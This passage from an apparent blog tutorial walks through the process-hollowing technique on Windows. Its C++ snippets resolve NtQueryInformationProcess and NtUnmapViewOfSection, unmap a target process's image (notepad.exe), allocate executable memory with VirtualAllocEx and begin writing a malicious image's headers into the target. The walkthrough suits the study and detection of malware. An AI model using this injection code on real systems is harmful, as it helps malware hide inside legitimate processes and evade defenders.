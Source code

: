 
```cpp
// utilise runtime dynamic linking to obtain a function pointer to NtQueryInformationProcess
HMODULE hNtDll = LoadLibrary(TEXT("ntdll.dll"));
gNtQueryInformationProcess = (pfnNtQueryInformationProcess)GetProcAddress(hNtDll,
	"NtQueryInformationProcess");

HANDLE destProcess = pi->hProcess;
// get destination imageBase offset address from the PEB by calling NtQueryInformationProcess
gNtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);
DWORD_PTR pebImageBaseOffset = (DWORD_PTR)pbi->PebBaseAddress + 8;

// get destination imageBaseAddress
LPVOID destImageBase = 0;
ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, NULL);
```
With the necessary information retrieved and the function pointer defined, we can finally call the NtUnmapViewOfSection function using the same runtime dynamic linking method. We can then invoke the function by calling it with the corresponding parameters. With this step completed, we have successfully unmapped the image section from the target process, allowing us to modify it as needed.

```cpp
// unmap the target process by calling NtUnmapViewOfSection
gNtUnmapViewOfSection = (pfnNtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
gNtUnmapViewOfSection(destProcess, destImageBase);
```
The image below shows the memory regions of notepad.exe in the HxD Hex Editor before and after calling NtUnmapViewOfSection

![HxD Process Hollowing](/assets/images/hxd_process_hollowing.png)

## Allocating memory in the target process
With the image section successfully unmapped, we can now allocate the necessary memory in the target process using the VirtualAllocEx function, as demonstrated below. It's worth noting that the size of the allocated memory should match the size of the image that we want to inject to ensure that there is enough memory for our modifications.

```cpp
// obtain image size of the source image
PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
DWORD sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

// allocate memory in the target process
VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

## Writing the NT header from the malicious code to the target process
Another critical step in the injection process is to copy the NT headers of the source image to the target process. Before we do that, we would need to patch the image base specified in the header. At this stage, I am storing the original source image base in a variable so that we can use it in later sections. Patching the image base is necessary because it ensures that any dependencies required by the injected image is loaded at the correct address in memory within the target process.
